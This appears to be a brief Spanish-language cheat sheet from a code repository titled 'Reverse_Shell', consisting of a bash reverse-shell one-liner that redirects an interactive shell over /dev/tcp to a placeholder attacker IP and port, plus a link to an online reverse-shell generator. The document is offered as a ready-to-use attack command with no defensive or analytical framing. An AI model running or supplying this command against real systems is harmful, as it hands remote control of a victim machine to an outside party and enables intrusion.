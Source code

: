 # Reverse_Shell
Comandos para la Reverse_Shell
-----------------------------------------------------------------------------
# COMANDOS
Reverse_shell con bin/bash
-----------------------------------------------------------------------------
#!/bin/bash
bash -i >& /dev/tcp/(IP)/(Puerto) 0>&1
-----------------------------------------------------------------------------
Pagina para hacer comandos de reverse_shell para obtener la reverse shell automatico (https://www.revshells.com/)
con direccion URL...
-----------------------------------------------------------------------------
